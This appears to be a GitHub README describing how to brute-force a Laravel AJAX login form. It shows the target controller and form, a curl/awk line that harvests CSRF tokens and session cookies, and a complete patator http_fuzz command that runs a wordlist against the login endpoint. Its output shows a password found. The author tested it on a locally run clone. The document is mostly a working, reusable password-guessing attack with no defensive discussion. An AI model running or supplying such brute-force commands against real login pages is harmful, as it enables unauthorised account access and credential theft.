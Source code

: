 # Brute-force-Laravel-Ajax-form
Bruteforce laravel forms with has ajax login checks

Route</br>

Route::post('/login/user', 'CustomLoginController@loginUser'); </br>

LoginController</br>
<pre>
public function loginUser(Request $request)
    {
    	
    	$email	       = $request->email;
    	$password      = $request->password;
    	$rememberToken = $request->remember;
      
    	// now we use the Auth to Authenticate the users Credentials
		  // Attempt Login for members
      
      if (Auth::guard('member')->attempt(['email' => $email, 'password' => $password], $rememberToken))
      {
              $msg = array(
                'status'  => 'success',
                'message' => 'Login Successful'
              );
              return response()->json($msg);
      } 
      else
      {
          $msg = array(
            'status'  => 'error',
            'message' => 'Login Fail !'
          );
          return response()->json($msg);
      }
    }
</pre>

We know well all the login comes with CSRF </br>

Cookies = $(curl -s -c ajax.cookie "127.0.0.1:8000/login.php" | awk -F 'value=' '/_token/ {print $2}' | cut -d "'" -f2)</br>

This file will generate a file file with session and CSRF, copy those and use with the python script

<pre>
Javascript send data
        function LoginUser()
        {
            var token    = $("input[name=_token]").val();
            var email    = $("input[name=email]").val();
            var password = $("input[name=password]").val();

            var data = {
                _token:token,
                email:email,
                password:password
            };

            // Ajax Post 
            $.ajax({
                type: "post",
                url: "/login/user",
                data: data,
                cache: false,
                success: function (data)
                {
                    console.log('login request sent !');
                    console.log('status: ' +data.status);
                    console.log('message: ' +data.message);
                },
                error: function (data){
                    alert('Fail to run Login..');
                }
            });

            return false;
        }
   </pre>
   <pre>
   our html looks like this
      <form id="login-form" method="post" onsubmit="return LoginUser()" role="form" style="display: block;">
      
   it has hidden input field sets the _token value which checks in Login Controller
    
      name="_token" value="HEmuStR1wyJ4GAvE4zVwQ9nq14ZZ0YGw5yWHncIp
      
      type="text" name="email"
                                                                          
      type="password" name="password"
                                         
 Finally our Require fields to bruteforce this login is 
  1 => _token
  2 => email
  3 => Password
  4 => XSRF-TOKEN
  5 => laravel_session 
   
   BruteForce with patator now
   
                      time  patator  http_fuzz  method=POST url="http://127.0.0.1:8000/login/user"  0=/usr/share/wordlists/fasttrack.txt body="email=hello@gmail.com&password=FILE0&_token=HEmuStR1wyJ4GAvE4zVwQ9nq14ZZ0YGw5yWHncIp" header="Cookie: XSRF-TOKEN=eyJpdiI6IkVwUGh4YmY4eFRqT2JEeFhjXC9xV2xnPT0iLCJ2YWx1ZSI6Ikh4cEhreGxHT1JBT3U1T2xQWE1kQ3VlZ3g3WldIWW04djFHSlRhamdCNWZLcWNaRVFiUXNCdnRoTjhKWWl6YStKa09lOWRkekJ3UkNEWk9ybEhheVNBPT0iLCJtYWMiOiI2NmI2ZWY2MDIwZTkyYTU3ZTczYWFiYWMwZTQwYTRmZDMwYTdlMjI0MzA0ZWRiM2RlN2VmMDU5NGE4ZWQ3N2U4In0%3D; laravel_session=eyJpdiI6Ilwvck9UQndqeHpnekVtYnp0THIwRlwvQT09IiwidmFsdWUiOiI4cFJYaXVzcFwvcVBpdW9BMTJ4cnVcL2FrUnhETUxMa2tiZ1Q0OEpYTzlDZzVSUm9KV0xSdVhrNFpLMVwvZWwxMjhKTVdKcHc0MTlBVzBcLzVxUkpKT0FaZHc9PSIsIm1hYyI6IjNlNWI4YWMzYWY1MTRhMjBhYTZjYmZmNjFjYTdjYjRjMzVjY2U2OGMyZDZhY2JjY2VkZTg2MzIxZmEyMjE0MjcifQ%3D%3D" -x ignore:fgrep=Fail accept_cookie=0
                      
Result :
        03:28:13 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-12-23 03:28 IST
03:28:13 patator    INFO -                                                                              
03:28:13 patator    INFO - code size:clen       time | candidate                          |   num | mesg
03:28:13 patator    INFO - -----------------------------------------------------------------------------
03:28:33 patator    INFO - 200  1016:-1        0.838 | hello                              |   223 | HTTP/1.1 200 OK
03:28:33 patator    INFO - Hits/Done/Skip/Fail/Size: 1/223/0/0/223, Avg: 11 r/s, Time: 0h 0m 20s

real	0m21.449s
user	0m1.595s
sys	0m0.631s

Source code for the laravel app https://github.com/topza1412/Laravel-ajax-login-register

I cloned randomly and tested my skill !!!!..

</pre>
